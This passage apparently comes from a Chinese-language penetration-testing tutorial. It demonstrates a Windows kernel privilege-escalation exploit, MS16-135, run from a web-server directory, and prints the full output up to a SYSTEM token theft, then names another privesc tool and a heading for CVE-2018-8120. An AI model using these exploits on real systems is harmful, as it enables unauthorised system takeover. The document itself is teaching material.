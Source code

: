 ```bash
```

演示`ms16_135`

```bash
PS C:\phpstudy_pro\WWW> .\MS16-135.ps1
         _____ _____ ___   ___     ___   ___ ___
        |     |   __|_  | |  _|___|_  | |_  |  _|
        | | | |__   |_| |_| . |___|_| |_|_  |_  |
        |_|_|_|_____|_____|___|   |_____|___|___|


                           [by b33f -> @FuzzySec]

[?] Target is Win 7
[+] Bitmap dimensions: 0x770*0x4

[?] Adjacent large session pool feng shui..
[+] Worker  : FFFFF900C1E52000
[+] Manager : FFFFF900C1E54000
[+] Distance: 0x2000

[?] Creating Window objects
[+] Corrupting child window spmenu
[+] Trying to trigger arbitrary 'Or'..
[+] Trying to trigger arbitrary 'Or'..

[?] Success, reading beyond worker bitmap size!
[+] Old manager bitmap pvScan0: FFFFF900C1E54238
[+] New manager bitmap pvScan0: FFFFF900C1E52050

[>] Leaking SYSTEM _EPROCESS..
[+] _EPROCESS list entry: 0xFFFFF80004116030
[+] SYSTEM _EPROCESS address: 0xFFFFFA800CD3F040
[+] PID: 4
[+] SYSTEM Token: 0xFFFFF8A0000049FB

[>] Leaking current _EPROCESS..
[+] Traversing ActiveProcessLinks list
[+] PowerShell _EPROCESS address: 0xFFFFFA800EEB9150
[+] PID: 3760
[+] PowerShell Token: 0xFFFFF8A0037A1A9A

[!] Duplicating SYSTEM token!

PS C:\phpstudy_pro\WWW> whoami
nt authority\system
```

`windows-privesc-check2.exe` 这个也可以。

##### 3.3.5 CVE2018-8120提权
